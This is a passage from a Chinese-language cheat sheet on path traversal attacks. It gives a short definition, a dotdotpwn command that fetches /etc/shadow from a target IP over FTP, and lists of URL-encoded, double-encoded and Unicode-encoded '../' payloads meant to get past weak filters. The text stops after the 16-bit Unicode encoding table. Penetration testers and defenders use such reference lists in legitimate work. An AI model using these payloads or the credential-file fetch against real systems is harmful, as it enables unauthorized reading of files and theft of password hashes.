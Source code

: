 # 目录遍历

> 路径遍历，也称为目录遍历，是一种安全漏洞，当攻击者操纵引用文件的变量，使用“点点斜杠（../）”序列或类似构造时发生。这可能允许攻击者访问存储在文件系统上的任意文件和目录。

## 摘要

- 工具
- 基本利用
  - 16位Unicode编码
  - UTF-8 Unicode编码
  - 绕过将"../"替换为空
  - 使用";"绕过"../"
  - 双重URL编码
  - UNC绕过
  - NGINX/ALB绕过
  - ASPNET无Cookie绕过
- 路径遍历
  - 有趣的Linux文件
  - 有趣的Windows文件
- 参考资料

## 工具

- dotdotpwn - https://github.com/wireghoul/dotdotpwn

  ```powershell
  git clone https://github.com/wireghoul/dotdotpwn
  perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
  ```

## 基本利用

我们可以使用`..`字符来访问父目录，以下字符串是几种编码，可以帮助你绕过实现不佳的过滤器。

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16位Unicode编码

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```
